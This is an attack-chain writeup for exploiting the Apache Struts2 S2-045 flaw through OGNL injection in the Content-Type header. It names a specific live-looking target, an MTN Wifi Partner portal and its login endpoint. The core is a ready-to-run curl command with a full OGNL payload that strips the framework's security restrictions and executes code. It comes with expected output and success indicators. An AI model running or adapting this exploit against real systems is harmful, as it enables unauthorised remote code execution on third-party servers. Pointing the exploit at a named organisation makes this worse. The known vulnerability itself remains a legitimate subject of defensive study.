

# Apache Struts2 RCE via OGNL Injection in Content-Type Header

Multi-stage attack chain demonstrating exploitation of the Apache Struts2 S2-045 vulnerability for remote code execution on a vulnerable web application, such as the MTN Wifi Partner portal at wifi-partner.mtn.com.gh.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minute |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-send-ognl-injection]]

### Target Environment

- Web application using Apache Struts2 (vulnerable to S2-045)
- Jakarta Multipart parser enabled
- Open port 80/443 for HTTP/HTTPS access

### Initial Access Requirements

- Network access to the target host (e.g., wifi-partner.mtn.com.gh)
- No authentication required for the /pwsc/login.do endpoint
- Basic knowledge of HTTP requests and OGNL expressions

## Detailed Attack Procedures

### Step 1: Exploit RCE Vulnerability
procedure: [[procedures/Exploit-Struts2-S2-045-RCE-with-OGNL-Injection]]

**Objective**: Inject a malicious OGNL expression into the Content-Type header of a GET request to trigger remote code execution during multipart parsing exception handling.

**Instructions**: Craft and send an HTTP GET request to the /pwsc/login.do endpoint using [[commands/curl-send-ognl-injection]] to bypass OGNL restrictions, access the response output stream, execute a proof-of-concept calculation (31337*31337), and flush the result to the response.

```bash
curl -X GET "http://wifi-partner.mtn.com.gh/pwsc/login.do" \
  -H "Host: wifi-partner.mtn.com.gh" \
  -H "Cookie: ROUTEID=.1;JSESSIONID=13E16D2D032451B88B408F0CED57407E.1" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.61 Safari/537.36" \
  -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
  -H "Accept-Encoding: gzip,deflate" \
  -H "Connection: Keep-alive" \
  -H "Content-Type: %{(#test='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(#ros.println(31337*31337)).(#ros.flush())}"
```

**Expected Output**: The server response includes the result of the calculation (9796949) printed via the exploited output stream, confirming RCE.

**Success Indicators**:
- Response contains "9796949" (result of 31337*31337)
- No authentication errors or 4xx/5xx status codes unrelated to the exploit
- Server processes the invalid Content-Type and evaluates the OGNL expression

## Attack Chain Summary

### Key Achievements

1. Bypassed OGNL security restrictions by clearing excluded packages and classes
2. Accessed the response output stream to execute and display arbitrary code
3. Demonstrated full remote code execution without file upload, solely via header injection

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
